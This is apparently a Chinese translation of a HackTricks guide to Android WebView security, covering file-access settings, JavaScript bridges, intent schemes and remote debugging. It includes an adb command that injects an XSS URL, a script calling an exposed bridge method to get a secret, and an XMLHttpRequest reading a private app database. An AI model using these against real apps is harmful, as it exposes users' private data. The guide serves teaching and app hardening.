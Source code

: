 # Webview 攻击

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## WebView 配置和安全指南

### WebView 漏洞概述

Android 开发的一个关键方面是正确处理 WebViews。本指南强调了关键配置和安全实践，以减轻与 WebView 使用相关的风险。

![WebView 示例](<../../.gitbook/assets/image (1190).png>)

### **WebViews 中的文件访问**

默认情况下，WebViews 允许文件访问。此功能由 `setAllowFileAccess()` 方法控制，自 Android API 级别 3（Cupcake 1.5）以来可用。具有 **android.permission.READ\_EXTERNAL\_STORAGE** 权限的应用可以使用文件 URL 方案 (`file://path/to/file`) 从外部存储读取文件。

#### **已弃用的功能：从 URL 的通用和文件访问**

* **从文件 URL 的通用访问**：此已弃用功能允许从文件 URL 进行跨源请求，因潜在的 XSS 攻击而构成重大安全风险。默认设置在针对 Android Jelly Bean 及更高版本的应用中被禁用（`false`）。
* 要检查此设置，请使用 `getAllowUniversalAccessFromFileURLs()`。
* 要修改此设置，请使用 `setAllowUniversalAccessFromFileURLs(boolean)`。
* **从文件 URL 的文件访问**：此功能也已弃用，控制对其他文件方案 URL 内容的访问。与通用访问一样，其默认设置为禁用以增强安全性。
* 使用 `getAllowFileAccessFromFileURLs()` 检查，使用 `setAllowFileAccessFromFileURLs(boolean)` 设置。

#### **安全文件加载**

为了在仍然访问资产和资源的同时禁用文件系统访问，使用 `setAllowFileAccess()` 方法。对于 Android R 及以上版本，默认设置为 `false`。

* 使用 `getAllowFileAccess()` 检查。
* 使用 `setAllowFileAccess(boolean)` 启用或禁用。

#### **WebViewAssetLoader**

**WebViewAssetLoader** 类是加载本地文件的现代方法。它使用 http(s) URL 访问本地资产和资源，符合同源策略，从而促进 CORS 管理。

### loadUrl

这是一个常用函数，用于在 webview 中加载任意 URL：
```java
webview.loadUrl("<url here>")
```
Ofc，潜在攻击者绝不应该能够 **控制应用程序将要加载的 URL**。

### **JavaScript 和 Intent Scheme 处理**

* **JavaScript**：在 WebViews 中默认禁用，可以通过 `setJavaScriptEnabled()` 启用。建议谨慎操作，因为在没有适当保护的情况下启用 JavaScript 可能会引入安全漏洞。
* **Intent Scheme**：WebViews 可以处理 `intent` scheme，如果管理不当，可能会导致漏洞。一个示例漏洞涉及一个暴露的 WebView 参数 "support\_url"，可以被利用来执行跨站脚本 (XSS) 攻击。

![Vulnerable WebView](<../../.gitbook/assets/image (1191).png>)

使用 adb 的利用示例：

{% code overflow="wrap" %}
```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
{% endcode %}

### Javascript Bridge

Android 提供了一项功能，使得 **JavaScript** 在 WebView 中可以调用 **原生 Android 应用程序功能**。这通过利用 `addJavascriptInterface` 方法实现，该方法将 JavaScript 与原生 Android 功能集成，称为 _WebView JavaScript bridge_。需要谨慎，因为此方法允许 WebView 中的所有页面访问注册的 JavaScript 接口对象，如果通过这些接口暴露敏感信息，则会带来安全风险。

* **对于目标 Android 版本低于 4.2 的应用程序，必须极其小心**，因为存在一个漏洞，允许通过恶意 JavaScript 进行远程代码执行，利用反射。

#### Implementing a JavaScript Bridge

* **JavaScript 接口** 可以与原生代码交互，如示例所示，其中一个类方法被暴露给 JavaScript：
```javascript
@JavascriptInterface
public String getSecret() {
return "SuperSecretPassword";
};
```
* JavaScript Bridge 通过向 WebView 添加接口来启用：
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge");
webView.reload();
```
* 通过 JavaScript 的潜在利用，例如，通过 XSS 攻击，可以调用暴露的 Java 方法：
```html
<script>alert(javascriptBridge.getSecret());</script>
```
* 为了降低风险，**限制 JavaScript 桥接的使用**，仅允许 APK 中的代码，并防止从远程源加载 JavaScript。对于旧设备，将最低 API 级别设置为 17。

### 基于反射的远程代码执行 (RCE)

* 一种文档化的方法允许通过反射执行特定有效负载来实现 RCE。然而，`@JavascriptInterface` 注解防止未经授权的方法访问，从而限制了攻击面。

### 远程调试

* **远程调试** 可以通过 **Chrome 开发者工具** 实现，允许在 WebView 内容中进行交互和任意 JavaScript 执行。

#### 启用远程调试

* 可以通过以下方式为应用程序中的所有 WebView 启用远程调试：
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
WebView.setWebContentsDebuggingEnabled(true);
}
```
* 根据应用程序的可调试状态有条件地启用调试：
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
{ WebView.setWebContentsDebuggingEnabled(true); }
}
```
## 导出任意文件

* 演示使用 XMLHttpRequest 导出任意文件：
```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
alert(xhr.responseText);
}
}
xhr.open('GET', 'file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db', true);
xhr.send(null);
```
## 参考文献

* [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
* [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
* [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)
* [https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1](https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1)
* [https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I](https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I)

{% hint style="success" %}
学习与实践 AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
